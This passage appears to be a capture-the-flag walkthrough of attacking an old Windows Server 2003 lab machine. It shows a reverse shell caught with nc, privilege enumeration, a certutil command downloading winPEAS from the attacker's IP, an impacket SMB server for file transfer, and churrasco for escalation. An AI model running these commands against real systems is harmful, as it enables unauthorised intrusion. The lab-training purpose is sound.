 
```console
curl http://10.129.95.234/exploit.aspx
```
```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.95.234.
Ncat: Connection from 10.129.95.234:1032.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

At the moment we do not have enough privileges to do much.
Running a whoami /priv reveals SeImpersonatePrivilege. Thats just sounds bad.

```
C:\Documents and Settings\All Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```
Before we get started make a temp folder so we can execute some files.

```console
C:\>mkdir temp
mkdir temp

C:\>cd temp
cd temp

C:\temp>
```
This part took me the longest as I tried a couple of different exploits such as Juicypotato and Sweetpotato but ultimately I landed on churrasco that I got from this github. https://github.com/jivoi/pentest/blob/master/exploit_win/churrasco


To get the file on the system we set up our smbserver and then use the Copy command to bring onto the victim system. Earlier I also tried winPeasexe but it crashed my shell. Another option I tried was ```certutil.exe -urlcache -f http://10.10.14.93/winPEASexe``` but that wasn't going through for me.
```console
└──╼ [★]$ sudo impacket-smbserver rogue .
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```